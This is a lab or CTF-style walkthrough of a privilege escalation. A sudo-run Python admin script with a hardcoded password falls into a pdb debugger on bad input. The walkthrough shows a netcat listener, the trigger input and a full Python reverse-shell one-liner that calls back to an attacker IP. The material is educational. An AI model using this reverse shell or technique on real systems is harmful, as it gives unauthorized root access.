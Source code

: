 The script opens up and socket and listens on a random port. When a client connects and enters the password `secretadminpassword`, they are prompted to view processes, free memory, listening sockets, or quit. When the client sends a command (an integer 1-4), the server executes `ps aux`, `df`, or `ss -lnt` respectively. When the client quits, the program exits.

### Exploitation

This script has a large `try` block and the `except` block executes the `pdf.post_mortem()` function. If this function is executed, the program will go into debugging mode, allowing the user to execute arbitrary Python commands. If executed with `sudo`, the Python commands will run with administrative privileges.

Note the way in which the script retrieves the user input and passes it straight into the `int()` function. If a string is passed in that can't be cast into an integer, an exception will be thrown and the program will enter debugging mode.

Start a listener on the attacking machine.

```bash
$ nc -nlvp 443
```

Run the script.

```bash
$ sudo /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:4392
```

In another shell on the target machine, connect to the script's socket, input the password `secretadminpassword`, and input the string `blah`.

```bash
$ nc -nv 127.0.0.1 4392
Connection to 127.0.0.1 4392 port [tcp/*] succeeded!
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
blah
```

This will cause the script to enter debugging mode. Execute a reverse shell in the debugging prompt.

```bash
$ sudo /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:4392
invalid literal for int() with base 10: b'blah'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.71",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
